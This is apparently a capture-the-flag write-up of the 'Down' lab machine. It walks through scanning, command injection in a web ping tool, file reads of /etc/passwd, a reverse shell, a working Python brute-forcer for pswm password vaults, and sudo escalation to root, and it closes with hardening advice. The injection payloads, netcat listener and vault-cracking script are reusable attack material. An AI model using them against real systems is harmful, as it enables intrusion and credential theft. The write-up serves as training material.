

# Down Machine Exploitation Walkthrough

This document provides a **professional, extended, and formatted** walkthrough of the *Down* machine exploitation.  
It details every step from reconnaissance to privilege escalation, maintaining clarity and completeness for future reference.

---

## 1. Initial Enumeration

We started with a full Nmap scan to identify all open ports and active services on the target:

```bash
nmap -p- -Pn 10.129.234.87 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.234.87 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.234.87 -v --script vuln -oN nmap_vuln.txt
```


This revealed that the target hosts a web service accessible via port 80. No other high-value ports were exposed at this stage.

---

## 2. Web Application Discovery

Upon visiting the web page, we discovered a **ping utility** that allows users to send ICMP requests to arbitrary hosts.



We tested it by pinging our own machine and confirmed the functionality works as expected.

To capture callbacks or outbound requests, we set up a listener on our attacking machine:

```bash
nc -lvnp 8000
```


---

## 3. File Retrieval via Command Injection

During testing, we discovered that the ping feature is vulnerable to **command injection**.  
By chaining additional commands, we were able to exfiltrate arbitrary files from the system.

Example payload:

```
http://10.10.15.30:8000/hello ; file:///etc/passwd
```


After successful retrieval of `/etc/passwd`, we proceeded to inspect the web application's source code:

```
http://10.10.15.30:8000/hello ; file:///var/www/html/index.php
```


Analysis of the PHP source revealed a parameter called `expertmode`, which, when set to `tcp`, unlocked a new input form.


---

## 4. Exploitation and Reverse Shell

We attempted to achieve remote command execution through the **expert mode form**.  
Initial attempts failed due to reverse lookup restrictions, but after modifying our payload to include `-e /bin/bash`, we achieved execution.


Using **Burp Suite**, we intercepted and modified the request to successfully spawn a reverse shell.


Once connected, we confirmed a working shell and stabilized it for interactive use.


---

## 5. Post-Exploitation & User Enumeration

Upon stabilizing the shell, we located the user flag in the home directory.  
Next, we began privilege escalation enumeration and inspected user directories.


During manual inspection, we discovered readable files on another user's desktop (`aleks`).


Further digging revealed the presence of what appeared to be **encrypted credential files**.


---

## 6. Credential Extraction (PSWM Decryption)

We identified a reference to **pswm**, a password manager. The related GitHub repository is available here:

🔗 [https://github.com/Julynx/pswm](https://github.com/Julynx/pswm)

We developed a custom **Python tool** to brute-force decrypt the `pswm` vault file using a wordlist.

```python
#!/usr/bin/env python3
"""
A script to decrypt a pswm password vault by trying passwords from a wordlist.
"""

import os
import sys
import argparse
import cryptocode

DEFAULT_VAULT_PATH = os.path.expanduser("~/.local/share/pswm/pswm")

def print_decrypted_content(decrypted_text):
    print("\n--- Vault Decrypted Successfully ---")
    lines = decrypted_text.strip().split('\n')
    print(f"{'Alias':<25} {'Username':<25} {'Password'}")
    print("-" * 70)
    for line in lines:
        try:
            alias, username, password = line.split('\t')
            print(f"{alias:<25} {username:<25} {password}")
        except ValueError:
            continue
    print("-" * 70)

def bruteforce_vault(vault_path, wordlist_path):
    if not os.path.isfile(vault_path):
        print(f"❌ Error: Vault not found at '{vault_path}'")
        sys.exit(1)
    if not os.path.isfile(wordlist_path):
        print(f"❌ Error: Wordlist not found at '{wordlist_path}'")
        sys.exit(1)

    with open(vault_path, 'r') as f:
        encrypted_content = f.read()

    with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
        passwords = f.readlines()

    for password in passwords:
        decrypted_content = cryptocode.decrypt(encrypted_content, password.strip())
        if decrypted_content and '\t' in decrypted_content:
            print(f"✅ Success! Master Password Found: {password.strip()}")
            print_decrypted_content(decrypted_content)
            return

    print("❌ No valid password found.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Decrypt a pswm password vault using a wordlist.")
    parser.add_argument("wordlist", help="Path to the wordlist file")
    parser.add_argument("-v", "--vault", dest="vault_path", default=DEFAULT_VAULT_PATH,
                        help=f"Path to pswm vault (default: {DEFAULT_VAULT_PATH})")
    args = parser.parse_args()
    bruteforce_vault(args.vault_path, args.wordlist)
```

We executed the tool using:

```bash
python3 decrypt.py rockyou.txt -v pswm_file
```


The script successfully retrieved **valid credentials**.

---

## 7. Privilege Escalation

Using the recovered credentials, we switched users to **aleks**:


After running `sudo -l`, we discovered full `sudo` privileges.


A simple `sudo su` granted root access.


We then retrieved the root flag from `/root/root.txt`.

---

## 8. Summary of the Attack Path

### Key Steps:
1. Web command injection via ping functionality.  
2. File read vulnerability to extract sensitive PHP code.  
3. Command execution through `expertmode` parameter.  
4. Lateral movement via decrypted PSWM vault credentials.  
5. Privilege escalation using unrestricted `sudo` privileges.

### Recommendations:
- Sanitize and validate all user input server-side.  
- Restrict sensitive system file access from web applications.  
- Regularly rotate user passwords and remove unnecessary sudo permissions.  
- Avoid storing plaintext or weakly encrypted credentials locally.  
- Implement robust monitoring to detect unauthorized shell access.

---
